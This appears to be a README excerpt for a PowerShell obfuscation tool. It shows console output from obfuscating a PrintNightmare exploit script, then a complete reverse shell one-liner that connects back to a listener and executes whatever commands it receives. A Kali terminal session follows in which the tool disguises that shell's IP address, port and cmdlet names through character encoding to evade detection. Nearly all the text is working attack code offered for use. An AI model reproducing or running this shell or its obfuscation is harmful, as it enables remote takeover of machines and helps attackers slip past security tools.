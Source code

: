 ```shell
[-] -Bitfield is now -bFUCG7LB9gq50p4e
[-] -StructFields is now -xKryDRQnLdjTC8
[-] -PackingSize is now -0CB3X
[-] -ExplicitLayout is now -YegeaeLpPnB
[*] Removing comments
[*] Writing payload to o-printnightmare.ps1
[*] Done

PS /home/tristram> 
```

### PowerShell Reverse Shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient("127.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```shell
┌──(tristram㉿kali)-[~]
└─$ pwsh 
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/tristram> . ./Invoke-PSObfuscation.ps1                                                                            
PS /home/tristram> Invoke-PSObfuscation -Path ./revshell.ps1 -Integers -Cmdlets -Strings -ShowChanges

     >> Layer 0 Obfuscation
     >> https://github.com/gh0x0st

[*] Obfuscating integers
    Generator 2 >> 4444 >> $(0-0+0+0-0-0+0+4444)
    Generator 1 >> 65535 >> $((65535))
[*] Obfuscating strings
    Generator 2 >> 127.0.0.1 >> $([char](16*49/16)+[char](109*50/109)+[char](0+55-0)+[char](20*46/20)+[char](0+48-0)+[char](0+46-0)+[char](0+48-0)+[char](0+46-0)+[char](51*49/51))
    Generator 2 >> PS  >> $([char](1*80/1)+[char](86+83-86)+[char](0+32-0))
    Generator 1 >> >  >> ([string]::join('', ( (62,32) |%{ ( [char][int] $_)})) | % {$_})
[*] Obfuscating cmdlets
    Generator 2 >> New-Object >> & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_})
    Generator 2 >> New-Object >> & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_})
    Generator 1 >> Out-String >> & (("Tpltq1LeZGDhcO4MunzVC5NIP-vfWow6RxXSkbjYAU0aJm3KEgH2sFQr7i8dy9B")[13,16,3,25,35,3,55,57,17,49] -join '')
[*] Writing payload to /home/tristram/obfuscated.ps1
[*] Done
```
